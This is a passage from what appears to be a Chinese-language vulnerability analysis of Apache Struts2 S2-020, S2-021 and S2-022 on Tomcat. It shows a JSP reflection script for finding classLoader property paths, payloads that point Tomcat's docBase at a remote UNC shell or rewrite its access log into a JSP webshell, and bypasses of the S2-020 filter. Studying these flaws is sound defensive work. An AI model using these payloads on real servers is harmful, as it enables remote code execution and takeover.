 ```java
            continue;
        }
        if (!m.toGenericString().startsWith("public")) {
            continue;
        }       
        Class<?>[] pType  = m.getParameterTypes();
        if(pType.length!=0) continue;
        if(m.getReturnType() == Void.TYPE) continue;
        Object o = m.invoke(instance);
        if(o!=null)
        {
            if(set.contains(o)) continue;
            processClass(o,out, set, poc+"."+m.getName().substring(3,4).toLowerCase()+m.getName().substring(4));    
        } 
        }
    } catch (java.io.IOException x) {
        x.printStackTrace();
    } catch (java.lang.IllegalAccessException x) {
        x.printStackTrace();
    } catch (java.lang.reflect.InvocationTargetException x) {
        x.printStackTrace();
    }   
}%>
```

由于根据环境不同，`class.classLoader` 对应的结果是不同的，因此这个漏洞的利用不是特别的具有通用性，在此篇文章中，也只针对 Tomcat 进行研究和测试。

利用这个方式，目前在互联网上出现了一些 Tomcat 或其他中间件的 RCE 的利用方式：

1. Tomcat 应用目录更改为恶意 UNC 路径：
```
class.classLoader.resources.dirContext.docBase=\\192.168.1.1\shell.jsp
```

2. 修改日志记录文件位置、文件名、文件后缀，通过访问时带入恶意 jsp 代码，将日志文件后缀修改为 jsp，这样访问时程序会以 jsp 代码进行解析，执行恶意文件。
```
class.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.classLoader.resources.context.parent.pipeline.first.prefix=shell
class.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.classLoader.resources.context.parent.pipeline.first.fileDateFormat=1
<%Runtime.getRuntime().exec("calc");%>
```

S2-020 的修复在 excludeParams 的正则中添加了 `^class\..*`，这种形式，可以轻易使用如下方式绕过：

```
class['classLoader'].resources.dirContext.docBase=
top.class.classLoader.resources.dirContext.docBase=
Class.classLoader.resources.dirContext.docBase=
```

于是 S2-021 的修复又添加了对 classloader 字符的拦截。

而 S2-022 与之前是相同的漏洞，只不过由触发点由 ParametersInterceptor  变为了 CookieInterceptor。不再赘述。
